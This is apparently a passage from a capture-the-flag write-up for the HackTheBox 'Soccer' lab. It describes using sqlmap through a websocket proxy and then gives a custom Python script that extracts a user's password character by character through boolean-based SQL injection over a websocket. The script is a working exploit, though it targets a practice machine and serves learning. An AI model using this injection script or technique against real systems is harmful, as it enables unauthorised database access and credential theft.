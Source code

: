 At first I tried manually but it was taking too long. So I wanted to use sqlmap. I used [this](https://github.com/BKreisel/sqlmap-websocket-proxy) proxy tool to send sqlmap request to websocket.

<img width="1183" height="583" alt="11 - sql proxy" src="https://github.com/user-attachments/assets/2df43b79-f692-4756-8464-e211cfa1335c" />

<img width="1361" height="628" alt="12 - sqlmap" src="https://github.com/user-attachments/assets/b74df186-27ad-42b6-9bd3-35680d4699c9" />

But SQLmap was using time base sqli and it was really taking too long. I learned database name, table name and column names from sqlmap then I created this custom script:
```python
#!/usr/bin/env python3
import websocket
import json
import sys

# Target WebSocket endpoint
WS_URL = "ws://soc-player.soccer.htb:9091"

chars = "abcdefghijklmnopqrstuvwxyz0123456789"

def send_payload():
    try:
        ws = websocket.create_connection(WS_URL)
        print(f"[+] Connected to {WS_URL}")
        password = ""

        while True:
            found = False
            for i in chars:
                message = json.dumps({"id": payload(password + i)})
                print(f"[>] Sending: {message}")
                ws.send(message)
                response = ws.recv()
                print(f"[<] Response: {response}")

                if "Ticket Exists" in response:
                    password += i
                    print("[+] Password so far:", password)
                    found = True
                    break

            if not found:
                # No new character matched → stop
                break

        ws.close()
        return password

    except Exception as e:
        print(f"[!] Error: {e}")
        return None

def payload(prefix):
    return f"1 UNION SELECT email,password,username FROM accounts WHERE username = 'player' AND password LIKE '{prefix}%'-- -"

if __name__ == "__main__":
    result = send_payload()
    if result:
        print("\n[✓] Extracted password:", result)
    else:
        print("\n[!] Failed to extract password")
```

